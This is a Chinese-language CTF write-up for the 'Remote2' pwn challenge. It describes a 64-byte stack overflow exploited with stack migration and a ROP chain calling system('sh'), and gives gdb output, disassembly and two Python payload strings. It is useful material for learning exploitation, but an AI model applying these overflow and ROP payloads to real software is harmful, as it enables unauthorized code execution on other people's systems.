 Remote2
==========
這題在比賽當天沒有想出來，後來看到別人的想法才摸出來的，不過實作上也花了一些時間。
主要用到 stack migration 和 ROP 來做。

解題流程
----------
程式一開始會執行 "lsh"，之後逐字讀取 64bytes 到 buffer 上，然後就馬上 retuen。
先用 gdb 觀察一下 buffer 和 rbp 的距離，rbp此時為 0x7ffc98f88e1。

	(gdb) x/10gx $rsp
	0x7fffffffdf50: 0x4141414141414141      0x0000000000000000
	0x7fffffffdf60: 0x00000000004005c0      0x0000000000400470
	0x7fffffffdf70: 0x00007fffffffe060      0x0000000800000000
	0x7fffffffdf80: 0x00000000004005c0      0x00007ffff7a58730
	0x7fffffffdf90: 0x0000000000000000      0x00007fffffffe068

可以發現 64bytes 只夠我們剛好塞到 retuen address，後面沒有空間放其他 gadget。所以我們將要做的事分成兩次送。

第一輪我們先利用 stack migration 把 rbp 引導到自己找的 buffer 上，並 retuen 回 main 裡面讀取字元的程式區塊，將 ROP chain 讀到新的 buffer 上。
```python
'A'*44 + '\x2c\x00\x00\x00' + p64(buf+0x80) + p64(main_read)
```

可以讀到新的 buffer 上是因為程式為由 rbp 為基準，推算出區域變數的位置。所以 rbp 一改，目標 buffer 的位址也跟著變了。
<pre>
400582:       8b 45 fc                mov    eax,DWORD PTR [<b>rbp-0x4</b>]
400585:       48 8d 55 d0             lea    rdx,[<b>rbp-0x30</b>]
400589:       48 01 d0                add    rax,rdx
40058c:       ba 01 00 00 00          mov    edx,0x1
400591:       48 89 c6                mov    rsi,rax
400594:       bf 00 00 00 00          mov    edi,0x0
400599:       e8 a2 fe ff ff          call   400440 <read@plt>
</pre>
----------
另外有個地方要特別注意，由於這題是一個字一個字讀輸入，我們在蓋 buffer 時會把位於 rbp-0x4，
用來計數的值寫掉。
<pre>
0x7fffffffdf70: 0x00007fffffffe060      0x<b>00000008</b>00000000
</pre>
這會導致程式沒辦法正確判斷你讀了幾 byte 以及該讀去哪個位置。所以蓋到這邊的時候，必須將該位址原本的值再寫上去。

----------
最後，利用 leave ret 的 gadget 將 rsp 指到 ROP chain 上，並跳進第一個 gadget 開始跑，就可以拿到 shell 了！
```python
'A'*7 + p64(pop_rdi_ret) + p64(sh) + p64(system) + 'A'*12 + '\x2c\x00\x00\x00' + p64(buf+0x80-0x30) + p64(leave_ret)
```
